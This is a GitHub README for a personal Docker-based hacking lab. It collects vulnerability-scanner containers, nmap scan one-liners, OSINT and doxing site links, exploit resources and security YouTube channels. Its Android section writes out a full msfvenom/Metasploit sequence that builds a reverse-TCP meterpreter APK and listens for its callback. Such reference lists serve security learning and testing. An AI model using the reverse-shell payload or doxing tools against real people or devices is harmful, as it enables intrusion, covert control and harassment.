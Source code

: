 Docker Hacklab
===

> My personal hacklab

Quick Start
---

```bash
# Run Hacklab
docker run -d --name hacklab --net=host --privileged -it jcherqui/docker-hacklab

# Vuln Scanners
docker run -d --name nessus -p 8834:8834 infoslack/nessus
docker run -d --name openvas -p 443:443 -p 9390:9390 -p 9391:9391 mikesplain/openvas
```

Doxing/OSINT
---

- http://www.peekyou.com/
- https://pipl.com/

Cheat Sheet
---

- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

Autopwn
---

https://github.com/ngalongc/AutoLocalPrivilegeEscalation

ClickJacking
---

https://samy.pl/quickjack/

Android
---

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R > FILENAME.apk
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip> *
set LPORT <port>
exploit -j
```

https://android.fallible.co/

NMAP
---

nmap -Pn --script=dns-brute <host> # Find subdomains of a website
nmap -Pn --script=mysql-info <host> # Find mysql version
nmap -Pn --script=http-sitenap-generator <host> # Display directory structure
nmap -sV --script=vulscan <host> # Display vuln
nmap -sV --script-args vulnscandb=exploit <host> # //
nmap -Pn --script=http-xssed <host> # Search on xssed.com if XSS vulnerability
nmap -sV  –script=http-sql-injection <host> # Test injection SQL

TOP Channels youtube
---

https://www.youtube.com/user/Hak5Darren/videos
https://www.youtube.com/user/DEFCONConference/videos
https://www.youtube.com/user/BlackHatOfficialYT/videos
https://www.youtube.com/user/JackkTutorials/videos
https://www.youtube.com/channel/UCO51Z4c1R8EPHZioGwgBmDw/videos
https://www.youtube.com/playlist?list=PLkRo97mCIn9lgvE7AskNsmwJVOlJX2zaI
https://www.youtube.com/channel/UC286ntgASMskhPIJQebJVvA/videos
https://www.youtube.com/user/gaytony10/playlists
https://www.youtube.com/user/bhargavtandel/videos

Links
---

- https://www.exploit-db.com/
- http://sectools.org/
- http://pwnwiki.io/
- https://www.cybrary.it/
- http://null-byte.wonderhowto.com/
- https://github.com/enaqx/awesome-pentest
- https://github.com/Hack-with-Github/Awesome-Hacking
- https://github.com/sindresorhus/awesome#security
- https://github.com/gchq/CyberChef
- https://hackademics.fr

License
---

MIT

Free Software, Hell Yeah !
